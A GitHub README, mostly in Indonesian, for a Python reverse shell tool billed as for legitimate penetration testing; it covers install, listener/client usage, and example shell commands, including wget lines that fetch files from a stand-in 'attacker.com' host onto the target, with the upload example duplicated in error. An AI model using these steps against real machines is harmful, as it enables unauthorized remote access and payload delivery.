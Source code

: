 # Python Reverse Shell Tool
![carbon](https://github.com/user-attachments/assets/b3b3c0a2-c7c9-423d-8652-d2f498aabfd6)

Tool reverse shell sederhana berbasis Python untuk penetration testing yang sah.

## Fitur Utama

- 🚀 **Dual Mode**: Mode listener dan client
- 🔒 **Komunikasi Terenkripsi** (versi advanced)
- 📱 **Multi-Platform**: Bekerja di Windows, Linux, dan macOS
- 💻 **Shell Interaktif**
- 📡 **Port Customizable**

# Fitur Tambahan 
- Detailed logging to file
- Different log levels
- Critical error tracking
- Connection errors (timeout, refused, etc.)
- Command execution errors
- Listener setup errors
- Input validation
- Auto-reconnect mechanism
- Input validation for IP/port
- Better resource cleanup
- Graceful shutdown
- Proper socket cleanup
- Error messages don't reveal sensitive info
- Input sanitization
- Clear error messages
- Colorized output
- Helpful status messages


## Persyaratan

- Python 3.6+
- Modul `cryptography` (untuk versi enkripsi)
 ```console
 pip install cryptography
```
## Install
 ```console
git clone https://github.com/hidayat-tanjung/revershe
chomd +x reverse.py
python3 reverse.py
```
# Cara Penggunaan

1. Star Listener 
 ```console
python3 reverse.py
```
Pilih menu 1 (Start Listener) dan masukkan port (misal 8888)

2. Connect dari komputer lain:
 ```console
python3 reverse.py
```
Pilih menu 2 (Connect to Target) dan masukkan:
* IP target (misal 192.168.1.100)
* Port yang sama (8888)

# Untuk Sistem Linux/Mac
```console
shell> ls          # Lihat isi direktori
shell> pwd         # Lihat direktori saat ini 
shell> ls -la      # Lihat semua file termasuk hidden
shell> tree        # Lihat struktur direktori (jika terinstall)
```
* Untuk Sistem Windows
```console
shell> dir         # Lihat isi direktori
shell> cd          # Lihat direktori saat ini
shell> tree        # Lihat struktur direktori
```
* Karakter khusus
```console
shell> cd "My Documents"
shell> cd /var/www/html
shell> ls
```
* Download direktori target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```
* Upoad File ke target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```

| Command | Description |
| --- | --- |
| -l | Jalankan sebagai listener |
| -c IP | Hubungkan ke listener di IP target |
| -p PORT | Tentukan port (default: 4444) |
| -i | Mode interaktif |
| -k KEY | Encryption key (versi advanced) |

# Troubleshooting
```console
sudo lsof -i :4444  # Cari proses yang menggunakan port
sudo kill -9 <PID>  # Hentikan proses
```
* Pastikan listener sudah berjalan di target
* Periksa firewall/network configuration
MIT License

Copyright (c) Izumy

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe/)
